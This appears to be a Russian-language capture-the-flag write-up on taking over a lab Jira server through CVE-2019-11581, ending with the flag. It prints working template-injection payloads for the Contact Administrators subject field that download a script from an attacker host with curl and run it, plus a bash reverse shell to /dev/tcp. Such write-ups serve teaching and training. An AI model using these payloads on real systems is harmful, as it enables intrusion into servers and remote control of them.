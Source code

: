 # Jira

Находим через nmap на порту 8080 инстанс Jira

Гуглим, находим CVE-2019-11581, позволяющую получить RCE. Для её эксплуатации нужно в панели отправки сообщения администраторам, находящейся по адресу [http://10.10.1.169:8080/secure/ContactAdministrators!default.jspa](http://10.10.1.169:8080/secure/ContactAdministrators!default.jspa), вставить пейлоад, эксплуатирующий уязвимость в шаблонизации, в поле Subject.

![jira contact admins](contact-admins.png)

Для прокидывания реверс шелла, написал скрипт, выполняющий подключение:
```
sh -i >& /dev/tcp/10.5.5.164/41101 0>&1
```

Запустил сервер, отдающий этот скрипт через `python3 -m http.server 41155`

Далее, загрузил на хост скрипт через следующий пейлоад:
```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('curl http://10.5.5.164:41155/splo1.sh -o /tmp/splo.sh').waitFor()
```

И запустил его:
```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec('bash /tmp/splo.sh').waitFor()
```

Получил реверс-шелл:
![reverse shell](revshell.png)


**Флаг:** `nto{j1rn4y4_uy4zv1m057}`